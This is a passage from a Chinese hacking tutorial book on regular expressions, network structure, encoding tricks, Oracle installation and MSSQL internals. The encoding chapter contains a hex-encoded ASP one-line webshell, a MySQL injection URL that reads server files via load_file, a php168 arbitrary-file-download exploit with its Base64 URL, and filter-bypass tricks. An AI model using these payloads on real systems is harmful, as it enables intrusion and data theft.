- `[a-z]` 字符范围，匹配指定范围内的任意字符。例如，`'[a-z]'` 可以匹配 `'a'` 到 `'z'` 范围内的任意小写字母字符。
- `[^a-z]` 负值字符范围，匹配任何不在指定范围内的任意字符。例如，`'[^a-z]'` 可以匹配任何不在 `'a'` 到 `'z'` 范围内的任意字符。
- `\b` 匹配一个单词边界，也就是指单词和空格间的位置。例如，`'er\b'` 可以匹配 `"never"` 中的 `'er'`，但不能匹配 `"verb"` 中的 `'er'`。
- `\B` 匹配非单词边界。`'er\B'` 能匹配 `"verb"` 中的 `'er'`，但不能匹配 `"never"` 中的 `'er'`。
- `\cx` 匹配由 x 指明的控制字符。例如，`\cM` 匹配一个 Control-M 或回车符，x 的值必须为 A-Z 或 a-z 之一，否则将 `c` 视为一个原义的 `'c'` 字符。
- `\d` 匹配一个数字字符，等价于 `[0-9]`。
- `\D` 匹配一个非数字字符，等价于 `[^0-9]`。
- `\f` 匹配一个换页符，等价于 `\x0c` 和 `\cL`。
- `\n` 匹配一个换行符，等价于 `\x0a` 和 `\cJ`。
- `\r` 匹配一个回车符，等价于 `\x0d` 和 `\cM`。
- `\s` 匹配任何空白字符，包括空格、制表符、换页符等等，等价于 `[\f\n\r\t\v]`。
- `\S` 匹配任何非空白字符，等价于 `[^ \f\n\r\t\v]`。
- `\t` 匹配一个制表符，等价于 `\x09` 和 `\cI`。
- `\v` 匹配一个垂直制表符，等价于 `\x0b` 和 `\cK`。
- `\w` 匹配包括下划线的任何单词字符，等价于 `'[A-Za-z0-9_]'`。
- `\W` 匹配任何非单词字符，等价于 `'[^A-Za-z0-9_]'`。
- `\xn` 匹配 n，其中 n 为十六进制转义值。十六进制转义值必须为确定的两个数字，例如，`'\x41'` 匹配 `"A"`，`'\x041'` 则等价于 `'\x04' & "1"`。正则表达式中可以使用 ASCII 编码。
- `\num` 匹配 num，其中 num 是一个正整数，是对所获取的匹配的引用。例如，`'(.)\1'` 是匹配两个连续的相同字符。
- `\n`（注意：这个 n 是数字）标识一个八进制转义值或一个后向引用。如果 `\n` 之前至少有 n 个获取的子表达式，则 n 为后向引用。否则，如果 n 为八进制数字（0-7），则 n 为一个八进制转义值。
- `\nm` 标识一个八进制转义值或一个后向引用。如果 `\nm` 之前至少有 nm 个获取的子表达式，则 nm 为后向引用。如果 `\nm` 之前至少有 n 个获取，则 n 为一个后跟文字 m 的后向引用。如果前面的条件都不满足，若 n 和 m 均为八进制数字（0-7），则 `\nm` 将匹配八进制转义值 nm。
- `\nml` 如果 n 为八进制数字（0-3），且 m 和 l 均为八进制数字（0-7），则匹配八进制转义值 nml。
- `\un` 匹配 n，其中 n 是一个用四个十六进制数字表示的 Unicode 字符。例如，`\u00A9` 匹配版权符号（©）。

以上就是正则表达式所需要用到的相关字符及简要说明。有了这份“字典”，再回头看看图1中的那些正则表达式，会发现其中涉及的 `\`、`?`、`*` 等关键符号（正则表达式中的专有名词叫元字符）和它们的组合都在这个表中有详细的说明。那么我们就一起来对着这份“字典”，试着读懂那些绕人的正则表达式吧。

我们以这段正则表达式为例：`"/<(script.*?)>(.*?)(</script.*?>)/si"`

在正则表达式里，每对圆括号 `()` 里的就是内容。为了便于阅读，我们可以单独拆开来理解所表达的内容，就好像读一段文字需要断句和分清各个词组一样。这里用“|”字符将以上例句拆分成：`/<|(script.*?)>|(.*?)|<|(\/script.*?)>|/s`

先看第一部分，“script.*?”这串字符包括了“.”、“*”、“?”这三个正则表达式的字符，对照前面“字典”里的描述，可见这三个字符表示匹配任意字符。如果在 script 后面没有这个过滤，`<script>` 只要写成 `<script >`，后面加几个空格就能绕过检测了。

例句后面几部分的“.”、“*”、“?”字符含义都一样，都表示过滤任意字符。在两个 script 中间的“.*?”表示过滤这两个标签中的任意字符，最后的“\s”表示匹配任何空白字符，包括空格、制表符、换页符等等，大家可以查“字典”看看。

再看另一个例子，以输入固定电话号码后验证其是否标准的正则表达式为例：`\(?0\d{2}[-\)]?\d{8}`

我们都知道，固定电话号码的标准格式一般为“区号-电话号码”，区号一般是 3-4 位，电话号码在 5-8 位左右，我们来看看上面这个表达式例句判断的标准是什么。

在圆括号中，“?” 后是一个 0，后面跟着 2 个数字的匹配（`\d{2}`），然后是与 “)”、“-” 或空格中的一个字符进行连接，它出现 1 次或不出现（`?`），最后连接 8 个数字（`\d{8}`）。这样看来，这里判断固定电话的号码标准应该是“3 位数字的区号 - 8 位数字的号码”，比如 010-86921991。

通过以上两个例子，相信基本已经能够读懂正则表达式了，只要跟着“字典”看文解义，相信也没什么难的。

图2

正则表达式是高度集成和概括的一种代码，如果我们要编写自己的正则表达式，或者验证自己所理解的正则表达式是否正确，需要用到工具 Regex Tester，如图2。首先你要确保电脑中已经安装了 .Net Framework 2.0。

如果我们要检测例句：“`\(?0\d{2}[-\)]?\d{8}`”正则表达式是否能正确地找出以 0XX 开头，后面连接 8 位数字的电话号码，可以在第一个框中输入正则表达式（支持 Ctrl+V 粘贴），然后在第三个框中输入几个电话号码，其中有的是符合正则表达式的，有些则不符合，看看能否查出正确结果。按 F5 键之后，在最下面一个框里就会显示出查到的正确结果。

正则表达式在 XSS、SQL 注入等脚本漏洞横行的今天，能读懂它所过滤的内容，是找到破解之法的钥匙，希望大家好好学习，绝对实用。

## 三十七、常见网络结构介绍

很多所谓的 hack 在对网络进行安全测试时，却对相关的网络知识了解有限。很多朋友在遇到数据库和 WEB 服务是分隔在两台服务器上时，却在提问为什么在服务器上找不到 web 目录来备份 webshell。

很多“黑客”只满足于对同时安装有 SQL 服务和 WEB 服务的这种最简单的主机进行入侵检测，如果学习的深度不够，是干不成大事的，因为越是大型的网站，网络环境越复杂。如果不了解一些基本的网络结构知识，就算幸运地得到了一个入口点，也如同没头苍蝇一样不知道自己身在何处，通过得到权限的跳板下一步将去向哪里。只有了解了自己所处的状况，才能“对症下药”找到方法。

本书此节中讲述的网络结构并非教科书上所说的“星形结构”或“网状结构”，是完全从一个网络安全学习者的角度来看待的网络环境，用不标准化但是贴切易懂的菜鸟语言来描述种种网络状态和网络中的现象，更加利于基础不深的网络安全学习者的理解。

网络环境这门学问可谓博大精深，本书所作的只是从网络安全的某一侧面看待网络问题，只是“以点看面”，读者要避免学过本章后以为这就是网络环境的全部而产生“以点代面”的想法。

网络中主要的数据通信都来自三层（暂时忘掉网络五层结构的教科书说法）：

- 1、物理层（即常说的第一层，层 L1）中继系统，即转发器（repeater）；
- 2、数据链路层（即第二层，层 L2），即网桥或桥接器（bridge）；
- 3、网络层（第三层，层 L3）中继系统，即路由器（router）。

打个比方，这几层就相当于汽车、火车、飞机，网络中的数据包可以由这三种层面到达目的地。首先要介绍一下网络环境中常见的几种网络设备，一般只有三种：交换机、路由器、PC 主机。忘掉一些老掉牙的网络课程上提到的集线器吧，那东西和交换机价钱相近，但功能却差很多，在现实的应用中基本很少用了。

先解释一下三种设备的基本常识，PC 主机就是指电脑，不过这些电脑各具专属的功能，比如有的是 FTP 服务器、有的是 WEB 服务器、有的是 SQL 服务器、有的是 DNS 服务器、有的是工作站等等，在本书中以如图1的图形来表示。

再说说其它两种网络设备，是本文的关键。交换机属于 OSI 第二层，即数据链路层设备，它根据 MAC 地址寻址，通过站表选择路由，站表的建立和维护由交换机自动进行，在本书中以如图2的图形来表示。

交换机最大的好处是快速，由于它只须识别帧中 MAC 地址，直接根据 MAC 地址产生选择转发端口，便于 ASIC 实现，因此转发速度极高。但交换机的工作机制也带来一些问题，后面我们会提到。

路由器属于 OSI 第三层，即网络层设备，它根据 IP 地址进行寻址，通过路由表路由协议产生，在本书中以如图3的图形来表示。

请注意，交换机和路由器描述中那两段加粗了的文字，说明它们的工作层次不同，一个在二层，一个在三层。形象点理解，交换机是飞机，速度快，点对点，但是没有那么多的灵活性；路由相当于陆地上的车，直接到户，路线可以灵活变化，速度要慢一些。

交换机以 MAC（即物理地址）传递数据包，路由器以 IP 地址传递数据包，这是两者最本质的区别，除此之外，两者的区别还表现在：

- 1、回路：根据交换机地址学习和站表建立算法，交换机之间不允许存在回路。一旦存在回路，必须启动生成树算法，阻塞掉产生回路的端口。而路由器的路由协议没有这个问题，路由器之间可以有多条通路来平衡负载，提高可靠性。
- 2、负载集中：交换机之间只能有一条通路，使得信息集中在一条通信链路上，不能进行动态分配，以平衡负载。而路由器的路由协议算法可以避免这一点，OSPF 路由协议算法不但能产生多条路由，而且能为不同的网络应用选择各自不同的最佳路由。
- 3、广播控制：交换机只能缩小冲突域，而不能缩小广播域。整个交换式网络就是一个大的广播域，广播报文发散到整个交换式网络。而路由器可以隔离广播域，广播报文不能通过路由器继续进行广播。
- 4、子网划分：交换机只能识别 MAC 地址，MAC 地址是物理地址，而且采用平坦的地址结构，因此不能根据 MAC 地址来划分子网。而路由器识别 IP 地址，IP 地址由网络管理员分配，是逻辑地址，且 IP 地址具有层次结构，被划分成网络号和主机号，可以非常方便地用于划分子网，路由器的主要功能就是用于连接不同的网络。
- 5、保密问题：虽说交换机也可以根据帧的源 MAC 地址、目的 MAC 地址和其它帧中内容对帧实施过滤，但路由器根据报文的源 IP 地址、目的 IP 地址、TCP 端口地址等内容对报文实施过滤，更加直观方便。
- 6、介质相关：交换机作为桥接设备也能完成不同链路层和物理层之间的转换，但这种转换过程比较复杂，不适合 ASIC 实现，势必降低交换机的转发速度。因此目前交换机主要完成相同或相似物理介质和链路协议的网络互连，而不会用来在物理介质和链路层协议相差甚远的网络之间进行互连。而路由器则不同，它主要用于不同网络之间互连，因此能连接不同物理介质、链路层协议和网络层协议的网络。路由器在功能上虽然占据了优势，但价格昂贵，报文转发速度低。

在不太了解网络结构的读者当中，有的人会觉得两台电脑之间是直接相连的，如图4，这种连接方式的确存在，叫做 LAN 连接，但是现在已经几乎见不到了。

现在要把两台电脑连接起来，都是通过交换机相连，如图5。通过图4、图5的对比，读者应该明白，两台电脑之间的连接其实是由一个网络设备进行连接的，网络设备就好像是水管系统中的水阀一样，控制着“水”（数据包）的走向。

这种通过交换机相连的方式就是典型的交换环境，在渗透中，从其中一个电脑发起的普通嗅探即可抓取到同一交换机中其它电脑的数据包。许多简单数据库和服务器分开的网站都是采用这种网络结构。

除了用交换机把两个电脑连接起来，当然我们也可以用路由器来达到同样的目的，这种方式被称为“直接路由”，如图6。

在这种网络条件下，嗅探比较复杂，普通的嗅探是无效的。这是因为如上面所说，交换机下寻址是以 MAC 为准，路由器下是以 IP 地址为准，自然嗅探所用的工具不一样。路由条件下的嗅探，如果主机是同一 IP，可以用 ARP 类的嗅探器进行嗅探。下面我们来看看几种不同的网络结构。


### 直联路由 1

如果直接路由是下面这种 IP 不在同一网段的情况下，则是嗅探不到的，如图 7。我们可以看到，一个主机的 IP 是 192.168.1.2，另一个的 IP 是 192.168.2.3，不在同一网段。这里也能看出真正的路由器和一些具有路由功能的设备，如 ADSL 猫（具备一定的路由功能），它们之间的区别。真正的路由器能把连接的各台电脑划分到不同的网段。

### 直联路由 2

一些比较大型的网站在不同的服务器之间（如 Web 服务器和 SQL 服务器之间）除了通过交换机连接外，在出口处还有一个路由器。在路由中，它们往往对进出的端口或数据作了限制（硬件防火墙比软件防火墙要可靠，突破点少），导致我们无法从外部访问，或有 shell 的主机无法反向连接我们，如图 8。


这种情况下要通过 VPN 或复用端口及其它隧道技术尝试突破，此网络结构被称为“单臂式路由”。如果交换机所连接的两台电脑的 IP 是不同的，则被称为“单臂式路由虚拟网”。在路由虚拟网中，同接在交换机下的两个 IP 不同的电脑本身是无法直接通讯的，它们之间的通讯要通过上面的路由进行转发。


### 单臂式路由虚拟局域网

前面几种基本的网络结构介绍完了，接着就是这几种基本结构的延伸了。在更大型的网络中，由多个路由器将整个网络体系分隔成若干部分，越需要严密保护的网络部分越藏到深处，如图 9。

其中各路由器的路由表是预先设定的，通常无法改变（类似火车，数据包要按铺好的铁路走），这种情况下即便是同网段的嗅探也是比较难的。因为嗅探工具的工作原理就是需要去更新网关设备的路由表，把自己进行“伪装”来嗅探目标主机，从而偷听数据。如果不能更新网关的路由表，那嗅探攻击也就失效了，这就是静态路由。

相对应的，如果各个路由器之间的通信是灵活多变的，路由表不固定（相当于汽车，可以选择多条通道到达目的地），被称为“动态路由”，如图 10。这种网络条件下，嗅探还是可能的。

## 全副武装

面对复杂的网络结构，知识的深度直接决定成败，得到作为域控制器主机的权限往往是突破的要点。本文只是抛砖引玉，希望读者顺着这条路继续深入地学习。想要在巨大的网络城市中轻松自如地“走街串巷”，学习的广度和深度还要大大增加才行。


## 三十八、各种字符编码详解及在入侵中的应用

在接触电脑和网络之后，我们对相关知识的看法必须建立科学的思想，因为这种正确的观念能让我们在应对具体问题时，产生出许多奇妙的想法。大家经常会听到一些高手说，黑客技术中技术只是一方面，更重要的是“思路”。这所谓的“思路”，一方面是因为平时大量各种知识的积累，另一方面就是对很多理论具有正确的本质性认识。

下面举个从本质上理解了问题后解决问题的简单例子。在几年前，入侵手法中有一种是“暴库”，就是利用 conn.asp 文件中未加容错代码的错误，采取直接访问该文件，或者用 %25 替代 URL 中的 / 号，暴出数据库，然后下载数据库，如图 1。

为了防止暴库后数据库被下载，一些管理员想出个办法，就是在数据库名前加个“#”号。# 在 URL 中是一个截断符，当浏览器发现这个符号后会停止解析后面的字符，如图 2，我们访问 http://www.nohack.com/data/#cixiblog.mdb，提示找不到文件。


如果要下载文件名中带有“#”号的数据库，需要把“#”号转换成 URL 编码，即“%23”，这样就可以正常下载了。我们访问 http://www.nohack.com/data/%23cixiblog.mdb，如图 3，弹出“文件下载”提示框了。


这就是最初的利用编码转义达到入侵目的的例子。利用编码转义，是突破种种过滤限制的一个重要思路，对于各种字符编码的学习是必需的。不过在学习之前，我们先讲点题外话，这样能方便我们理解下面的知识。

我们现在所有交流的语言，在别的国家和文化中，都有不同的文字和语言来表达同一种意思。比如中文的“你好”，就有许多种语言能同样地表达：

- 中文：你好
- 英语：Hello
- 西班牙语：Hola（读作 o la）
- 法语：Bonjour
- 德语：Guten morgen（早上好的意思）
- 意大利语：Buon Giorno（同上）
- 荷兰语：Goedemorgen（同上）
- 马来语：ma ha la ha
- 日语：こんにちは


而网上传递的信息，这一个个字符，无论是空格、# 号，还是 select、insert 等，都可以用另一种字符来表示，同样可以达到传递信息的作用，而且还能绕过某些过滤限制。如上例中的“#”号写成“%23”，还有在暴库应用中把“/”号写成“%25”，这都是最早最简单的对于转换编码在入侵中的应用。


我们学习关于编码的知识，重点在于应用，其内在原理和转换算法没有必要了解得太详细，我们不是数学家，只要了解编码转换的几种类型和在 hack 中的应用就行了。

最常用的几种字符转换都可以在工具中简单完成，如图 4，这是一款多功能字符转换工具。

工具中列出了在入侵中最常用的四种转换编码：**URL 编码、ASCII 编码、16 进制编码和 Base64 编码**。使用方法也很简单，在最上面的“输入框”中输入要转换的字符，然后点击“转换”就可以得到相应的转换后编码。

比如我把一句话木马的代码输入到上面“输入框”，看看点击“转换”按钮之后的各种编码是什么样的，如图 5。

下面简单介绍一下各种编码的常见应用：


### 16 进制编码

这是最常见的字符转换模式之一，特征是前面有“0x”标记，如图 6 中一句话木马代码被转换成的 16 进制代码：`0x3c256576616c20726571756573742822676f2229253e`。


现在几乎所有的备份日志获得 webshell 的操作方法中，都是先建一个类型为 image 的表（image 类型能容纳 16 进制的数据），然后把一句话木马转换为 16 进制插入表中，接着备份成一个 webshell。

通过转换为 16 进制的一句话码，克服了早期备份 webshell 中涉及到的对特殊符号“'”的转义问题。如果读者看过比较多的老资料，一些早期的 SQL 注入文章中对此有描述。MSSQL 注入时用函数绕开过滤，也是用的 16 进制编码，如图 6。


### URL 编码

所有提交到网站的数据，都是可以进行 URL 编码的！还记得抓包修改空格为“00”的上传漏洞吗？其实就是把字符修改成了 URL 编码中的中断字符“00”。该编码的特征是每个字符前面都有“%”号，并且连汉字都可以用 URL 编码的方式表达。如图 7，我们可以看到“黑客手册”这四个字转换后的 URL 编码为：`%ba%da%bf%cd%ca%d6%b2%e1`。

URL 编码在绕过过滤方面的作用比较小。假设某网站过滤了“=”号，于是“and 1=1 and 1=2”就无法得到正常的结果。想把“=”号 URL 编码成“%3D”，用“and 1%3D1 and 1%3D2”去测试，除非是本地的过滤脚本有缺陷，否则是无法绕过的。因为 URL 编码起作用只在你提交到网站的过程中，当被服务器的 IIS 接收到后，会还原成“=”号字符给它本地的脚本处理。

不过在另外的场合，URL 编码就可以一显身手了，比如向一些境外网站提交语句。当所查询的表段或字段是外文表示的（如韩文），在地址栏中提交的文字会变成奇怪的字符而导致语句执行失败，这时就可以尝试先把文字转换成 URL 编码后再到浏览器的地址栏提交。

不过注意，这种外国语符的转换，首先要转换工具本身支持输入外国语符才行，否则在转换框只会看到一排“？”号。如图 8，这款工具是能支持外国字符转换的，几个韩文被转换成了 URL 编码格式。


图 8

### ASCII 编码转换

特征是带有“char”字符标记，常用在 MYSQL 注入中。例如当 MYSQL 中 magic_quotes_gpc 值为 on 时，意味着提交的所有带有“'”号的输入，都会转变成“\'”。在 MYSQL 中要读出指定路径的文件，必须以两个“'”号把路径包括在中间。这种情况下，我们只要把路径改成 ASCII 编码就可以正常提交了。

例如读取“c:/boot.ini”这个加有单引号的路径，先转换成 ASCII 编码：“load_file(char(99,58,47,98,111,111,116,46,105,110,105))”，如图 9。然后提交语句：http://www.nohack.com/down/index.php?url=&did=1 and 1=2 union select 1,2,load_file(char(99,58,47,98,111,111,116,46,105,110,105)),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18，这样就绕过了单引号读出了 c:/boot.ini 的内容。


图 9

### Base64 编码

这种编码在 hack 中用得比较少，编码的特点是大小写掺杂，还常常包括有“==”号在结尾处。正在笔者发愁如何向读者介绍 Base64 编码在 hack 中的应用时，发现 php168 的读取任意文件漏洞很适合用来举例，代码在 job.php 文件的 117 处：

```php
if( eregi("\.php", $url) ){
    die("ERR");
}
$fileurl=str_replace($webdb[www_url],"",$url);
if(is_file(PHP168_PATH."$fileurl")&&filesize(PHP168_PATH."$fileurl")<1024*1024*500){
    $filename=basename($fileurl);
    $filetype=substr(strrchr($filename,'.'),1);
    $_filename=preg_replace("/\/([\d]+)_.{200}[\d]+_[^_]+\.([^\.]+)/is","\\3",$filename);

    if(eregi("^([a-z0-9=+/]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
        $filename=urldecode(base64_decode($_filename)).".$filetype";
    }

    ob_end_clean();
    header('Last-Modified: '.gmdate('D, d M Y H:i:s', time()).' GMT');
}
```

```php
header('Pragma: no-cache');
header('Content-Encoding: none');
header('Content-Disposition: attachment; filename='.$filename);
header('Content-type: '.$filetype);
header('Content-Length: '.filesize(PHP168_PATH."$fileurl"));
readfile(PHP168_PATH."$fileurl");
}else{
    $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
    header("location:$fileurl");
}
```

在这段代码里，判断了 url 里是否包含 .php，但是在接下来的代码中，出现了个替换：

`$fileurl=str_replace($webdb[www_url],"",$url);`

`$webdb[www_url].php` 被替换后就是 `.php`，但是可以顺利通过前面的是否存在 `.php` 的判断。

我们把这段密文当作参数传递给 job.php 文件，在地址栏里输入 `http://xxxx/job.php?job=download&url=aHR0cDovL3h4eHgvL2NhY2hlL2FkbWlubG9naW5fbG9ncy5waHA=`，直接弹出文件下载提示，其中的 `aHR0cDovL3h4eHgvL2NhY2hlL2FkbWlubG9naW5fbG9ncy5waHA=` 就是 Base64 编码的下载文件地址，转换成正常字符就是 `http://xxxx//cache/adminlogin_logs.php`。

该 Base64 地址被源代码中的 `$filename=urldecode(base64_decode($_filename)).".".$filetype";` 转成正常格式，再配合前面的替换绕过 php 后缀检测漏洞，可以下载 php168 整站下的任意文件。

可见 Base64 编码在特定场合还是有用武之地的，此外一些老的密码加密方式也采用的是 Base64 编码。

以上是常见的几种编码方式的应用。这节的目的其要点不在于这几个编码方式的应用，是希望大家能通过这几个编码转换解决实际问题的例子，明白信息的传递是有多种形式的。只要明白了各种代码和字符在相关系统中的应用，就会触类旁通。例如了解了 MSSQL 中对于各种字符和转义编码的处理，就有了“/**/”绕过空格过滤和“se%|%ec%t”绕过关键字过滤的方法。各种编码转换思路是不同的，但原理是相通的。

## 三十九、Oracle 安装

对网络安全知识有所了解的朋友对 SQL 注入一定不会陌生，像利用 SQL 注入点查询管理员账号密码，如果是 MYSQL 数据库就试读关键文件，如果是 MSSQL 数据库就备份一个 webshell，这些方法都是讲过很多年的老招了。

不过数据库的种类可不光是 Access、MYSQL 和 MSSQL，还有 Oracle、DB2 等，这一章就为大家简单介绍一下 Oracle 数据库及其安装方法。

提起数据库，不得不说说 Oracle（甲骨文）公司。该公司成立于 1977 年，最初是一家专门开发数据库的公司，其在数据库领域一直处于领先地位。1984 年，首先将关系数据库转到了桌面计算机上，然后在 Oracle 5 中率先推出了分布式数据库、客户/服务器结构等崭新的概念。Oracle 6 首创行锁定模式以及对称多处理计算机的支持……最新的 Oracle 8 主要增加了对象技术，成为关系-对象数据库系统。目前 Oracle 产品覆盖了大、中、小型计算机，Oracle 数据库成为世界上使用最广泛的关系数据系统之一。

> **MSSQL 与 Oracle 数据库的最重要区别在于：**
>
> Oracle 读表的时候是不会锁住记录的，而且在查询的时候，如果某些记录发生更改，它能够获取变化前的数据，这就保证了数据的一致性，保证不会脏读；
>
> MSSQL 好像读的时候是锁记录的，也就是 select 和 update 是互锁的。当 update 提交后，select 才能继续，否则就一直等待，所以读写互锁，搞不好就死锁。

这种区别可想而知，当数据库被瞬间大量更新时，无疑只有 Oracle 能胜任。大家可以从以下几点来了解 Oracle 的特点：

- 1. Oracle 的稳定性要比 Sql Server 好，所以很多游戏、银行、电信、新闻媒体的数据库都选用它，可见都是重量级的网站。相比之下，MSSQL 对应的网站就小很多，应用 Access 数据库的网站就更小。
- 2. Oracle 的导数据工具 sqlload.exe 的功能比 SqlServer 的 Bcp 功能强大，Oracle 可以按照条件把文本文件数据导入，这意味着 Oracle 下的利用方法比 MSSQL 有过之而无不及。
- 3. Oracle 的安全机制比 Sql Server 好，意味着“前景”虽然是光明的，但“道路”是曲折的。
- 4. Sql Server 的易用性和友好性要比 Oracle 好，这句话意味着想要方便地操作 Oracle 比 MSSQL 要困难，需要下点功夫学习。
- 5. 在处理大数据方面，Oracle 会更稳定一些，正是因为这种稳定性，决定了 Oracle 数据库涉及的站都比较高端。
- 6. Sql Server 在数据导出方面功能更强一些，Oracle 的难度比较高。
- 7. 处理速度方面 Oracle 稍慢，这和两者的协议有关，同第 5 条。
- 8. MYSQL 数据库端口是 3306，MSSQL 端口是 1433，Oracle 的默认端口是 1521。


图 1


图 2

了解了 Oracle 数据库的基本概念，现在我们到本机实践一下安装，这里选用 Oracle 9.2 的 Windows 版本。先下载好 Oracle，我得到的是三个 rar 压缩包文件，将其解压在同目录下，生成三个文件夹，如图 1。

进入第一个目录双击 setup.exe 文件，开始安装，出现的界面如图 2。


图 3

点击“下一步”，选择安装的源路径和安装路径，如图 3，这些在其它程序的安装中都很常见，就不多说了，设置好后点击“下一步”。

这一步出现了三个单选项，如图 4，要求选择安装的种类，是完整安装 Oracle 还是只安装客户端，这个选项在 MSSQL 的安装中也有。

我们当然是要安装完整的 Oracle，所以选默认的那个就行了，三个选项的中文意思分别如下：

> 数据库  
> 管理和集成  
> 客户机


图 4

点击“下一步”来到选择版本的界面，如图 5，通常都选“企业版”。

再点“下一步”，是选择数据库的用途，以便程序以最适合的状态来处理数据，一般情况下都选择“通用”，如图 6。

> **通用**
>
> 选择“通用”数据库配置类型适合于安装多用途的预配置数据库。

单的事务处理到复杂的查询均可。“通用”配置类型既可在这两种情况下支持大量并发用户对数据的快速访问，即事务处理环境的典型应用，也可满足决策支持查询（DSS）的性能需求，对复杂的历史数据进行数据扫描。

### 事务处理

选择“事务处理”数据库配置类型适合于安装大量并发用户执行简单事务处理的预配置数据库。事务处理数据库的典型应用包括银行事务处理或 Internet 商务的数据库。对于需要较高的可用性和事务处理性能、大量用户并行访问相同数据以及较高恢复性能的数据库环境，事务处理类型的配置可以提供最佳支持。

### 数据仓库

选择“数据仓库”数据库配置类型将安装适合于对主题进行复杂查询的预配置数据库。“数据仓库”的典型应用包括用于客户订单研究、支持呼叫、销售预测、购物和采购模式以及其它战略性业务问题的历史数据库。对于需要对大量数据进行快速的访问，以及使用类似联机分析处理（OLAP）等应用程序的数据库环境，“数据仓库”配置类型可以提供最佳支持。

设置好后点击“下一步”，Oracle MTS 恢复服务将在此计算机上监听请求所在的端口号，默认是 2030，一般不用改，如图 7。

这个服务是 Oracle 在频繁大量但连接时间很短的数据处理时（例如大家在玩游戏时登录验证服务器）优于 MSSQL 的一个重要功能。MTS，即 Multi-Threaded Server，这是相对 Dedicated 方式而言，它最大的优点是在不用增加物理资源（内存）的前提下支持更多的并发连接。如果你只有 2G 的物理内存，而你又想支持 2000 个连接，在获取最好性能的前提下，就应该选择 MTS 了。

可能大家还是不太明白这个服务的意思。以 MSSQL 来说，它会对每个连接生成一个进程进行处理，而 Oracle 则是把所有的连接请求先存在一个“池”中，然后以这个 MTS 专项进程对其处理，在处理一些“时间短、请求多、完成快”（如上面所举例的游戏里的登录验证账号过程）的数据请求时，效率明显高于 MSSQL。

图 8

继续点击“下一步”，接下来是输入全局数据库名和 SID 标识，如图 8。全局数据库的概念相当于 MSSQL 中的系统库，SID 的意思基本相当于程序或账号的“身份证”。

这就如同我们每个人，除了姓名外，还有一个身份证（就相当于 SID 了）用以识别。当然姓名是更友好的识别方式，身份证是更科学的识别方式，两者是不可互相替代的。相信每个人在遇到一个陌生人时，首先会问：“你好，请问你叫什么名字？”，而不会去问：“你好，你身份证号码是什么？”。

图 9

继续“下一步”，是设置 Oracle 的数据库文件、日志等的保存目录，如图 9，根据需要自己设定吧。

继续“下一步”，是设置语言字符种类，如图 10。只要你使用的语言是这个星球上的常见语，比如汉语、英语、日语、德语、法语、西班牙语、俄语等，就不必费心设置了，直接单击“下一步”。

图 10

这时已经完成最后的设置，会生成一张总表，如图 11。可看看有没有设置得不妥的地方，最后点击“安装”，Oracle 就开始在本机上进行安装了，如图 12。

Oracle 数据库的程序还是比较大的，请大家耐心等待。安装进行一会儿之后，系统会提示你插入 Disk2 及 Disk3，在路径中指定刚才解压的相关目录即可，如图 13。

安装接近尾声，需要设置两个 Oracle 数据库中至关重要的管理员密码，一个是 sys，另一个是 system，如图 14。

Sys 相当于是 MSSQL 中的 sa 权限，而 system 则相当于是系统库的 DB_OWNER，两者的权限都相当大。不过对于我们来讲，最有价值的是记住 sys，它能启动和关闭数据库，而 system 不行。

安装终于完成了，会列出两条比较关键的信息，那就是该 Oracle 数据库服务器能通过什么域名访问到，如图 15。如果你的数据库服务器进行了域名映射，可以用域名访问，否则就是以你的主机名即可访问到。

如果安装成功了，通过刚才得到的域名就能访问到我们的本机，如图 16。

相信读者们都知道，在 MSSQL 下有一个管理数据库非常好的自带工具，叫“查询分析器”，Oracle 下也有这么一个工具，我们来连接一下，试试看 Oracle 有没有正常工作。

这个工具位于“开始”－“所有程序”－“Oracle 目录”－“Integrated Management Tools”－“SQLPlus Worksheet”，如图 17。

打开后，与查询分析器大同小异，需要输入用户名、口令、服务器地址及连接身份。如果是用 sys 用户登录，选择 SYSOPER；如果是 system 用户登录，选择 SYSDBA；其它用户选择 Normal，如图 18。

登录成功了，可以看到界面很简单，如图 19，不如查询分析器那么友好，操作全靠命令执行。

我们来执行第一条 Oracle 命令吧，比如连接数据库命令：

```sql
Connect 用户名/密码@数据库服务名 AS 登录身份。
```

大家可以看图 19，我执行的命令是以用户 sys、密码 *****（为了安全，图中被抹去部分）连接 nohack 服务器，身份为 sysoper，提示已连接，说明我们的 Oracle 安装成功。

## 四十、走近 MSSQL 数据库内部

图 1

关于 SQL 注入的方法，相信大部分读者都已经能在各个不同的层面上应用了，这一门 hack 技术的出现是划时代的。从以溢出、跨站、脚本结构性漏洞等难以掌握的前沿领域，一下成了只需用工具和几种固定模式自动化完成的攻击，SQL 注入技术极大地促成了黑客知识的平民化。在其催化下，诞生了“脚本小子”，也就是只会用工具进行安全检测的所谓“黑客”。

很多读者对数据库的关键知识没有了解，只会简单地使用网上那几招常用手法，大大影响了实际作用的发挥。其实对数据库深入了解一番，能得到很多新的 hack 思路，这里带大家走近 MSSQL 数据库，来看看这个在中国拥有最多利用方法的数据库内部结构。

要清晰地看到 MSSQL 数据库的内部结构，最好的办法自然是安装一个 MSSQL 数据库，安装方法太简单了，这里就不介绍了。

图 2

安装完毕登录后，数据库查询分析器的界面就显示出来了，主要分三部分，如图 1：上面一排是操作栏，菜单和快捷键都在这里；左边是数据库栏，包括所有的数据库、对象；右边则是输入框，执行的 SQL 语句都写在这个框里，并且能看到执行结果。

安装完成后，数据库主要内容是保存在安装目录的 data 目录下，而且所有的库都是保存在这个目录下。数据库文件的主体用 mdf 后缀命名，数据库备份文件是 ldf，如图 2。假如你想对数据库进行备份，最好把这两种后缀的文件都备份，如果不备份 ldf，某些情况下恢复数据库会有问题。

在数据库的 bin 目录下存放的是一些存储过程需要使用的 DLL 文件和可执行程序，如图 3。看到那个很熟悉的 **xplog70.dll** 了吧？MSSQL 数据库中有几个关键的系统库，如图 4，它们储存着数据库相关的一切信息，是数据库正常运行必不可少的，重要性相当于 Windows 中的“系统目录”：

- **Master**：用来保存所有的系统信息，比如登录账号和配置设置，以及系统存储过程。
- **Model**：是所有用户创建的数据库模板。
- **Msdb**：存放 SQL Server Agent 信息，比如任务定义、运算符、警告定义等。
- **Tempdb**：存放临时的 server 对象，比如临时表和存储过程。

在这几个库中，重中之重的是 **master** 库，里面包含有一些很有用的扩展存储过程。打开这个数据库，在扩展存储列表中能看到许多对象，如图 5。

其中 hack 比较感兴趣的是：

- **Sp_addmessage**：向 sysmessages 表中添加新的错误消息；
